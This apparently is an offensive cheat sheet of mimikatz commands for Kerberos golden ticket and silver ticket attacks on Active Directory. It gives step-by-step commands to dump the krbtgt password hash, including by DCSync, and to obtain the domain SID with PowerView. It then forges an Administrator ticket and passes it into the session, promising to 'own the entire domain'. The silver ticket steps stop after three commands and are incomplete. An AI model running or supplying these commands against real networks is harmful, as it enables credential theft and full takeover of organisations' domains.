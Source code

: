 # GOLDEN TICKET

## Dump krbtgt hash to own the entire domain!

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:krbtgt

#### 4) kerberos::golden /user:Administrator /domain:domain.local /sid:SID /krbtgt:NTLM HASH /id:500(Admin) or 1103(Service)

#### 5) misc::cmd

# SILVER TICKET

#### 1) mimikatz.exe

#### 2) privilege::debug

#### 3) lsadump::lsa /inject /name:SERVICE/DOMAIN ADMIN


# Golden Ticket

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `lsadump::dcsync /domain:eagle.local /user:krbtgt`           | Command used in `mimikatz` to DCSync and dump the `krbtgt` password hash |
| `Get-DomainSID`                                              | Cmdlet from `PowerView` used to obtain the SID value of the domain. |
| `golden /domain:eagle.local /sid:<domain sid> /rc4:<rc4 hash> /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt` | Command used in `mimikatz` to forge a golden ticket for the `Administrator` account and pass the ticket to the current session |
| `klist`                                                      | Command line utility in Windows to display the contents of the Kerberos ticket cache. |
